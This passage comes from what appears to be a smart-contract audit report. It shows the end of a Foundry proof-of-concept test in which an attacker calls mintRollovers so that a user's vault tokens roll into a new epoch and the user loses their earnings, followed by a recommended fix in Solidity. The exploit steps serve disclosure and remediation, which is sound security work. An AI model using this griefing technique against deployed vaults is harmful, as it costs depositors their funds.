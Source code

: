 ```solidity
            marketId,
            uint40(block.timestamp+20), // epochBegin
            uint40(block.timestamp+30), // epochEnd
            100,1_000e18,1_000e18
        );

        vm.warp(block.timestamp+11); // second epoch has ended

        // epoch 2 has ended, trigger end of the epoch
        // there was no depeg, meaning that the attacker's premium payments are transferred to the collateral vault
        controllerPeggedAssetV2.triggerEndEpoch(marketId,epochId2);

        // attacker is angry they lost money so they will grief the user by making them lose their rewards
        // to do so they force the user to transfer their epochId tokens as soon as epoch 2 ends
        vm.prank(attacker);
        collateralVault.mintRollovers(epochId3,1);

        // showing that the user was screwed out of getting their funds
        assertEq(collateralVault.balanceOf(user1,epochId2),0); // all tokens moved out
        assertLe(collateralVault.balanceOf(user1,epochId3),10e18); // no extra tokens in new epoch
        assertEq(user1.balance,100e18-10e18); // no funds sent directly to user
    }

}
```

## Tool used

Manual Review

## Recommendation

The mitigation is simply to collect the user's earnings in `mintRollovers(..)` for the prior epochId, before minting deposits for the new epochId. This can be done without calling `withdraw(..)` followed by `deposit(..)` if you simply utilize the existing `entitledShares` variable which has already been defined:

```solidity
uint256 entitledShares = previewWithdraw(
    queue[index].epochId,
    queue[index].assets
);
```

You will still call `_burn(..)` using `queue[index].assets`, but you will call `_mintShares(..)` for `_epochId` using `entitledShares` minus the `relayerFee` instead. This will effectively debit the user for their earnings from the previous epochId.

```solidity
uint256 entitledShares = previewWithdraw(
    queue[index].epochId,
    queue[index].assets
);
...
_burn(
    queue[index].receiver,
    queue[index].epochId,
    queue[index].assets
);
...
uint256 assetsToMint = entitledShares - relayerFee;
_mintShares(queue[index].receiver, _epochId, assetsToMint);
```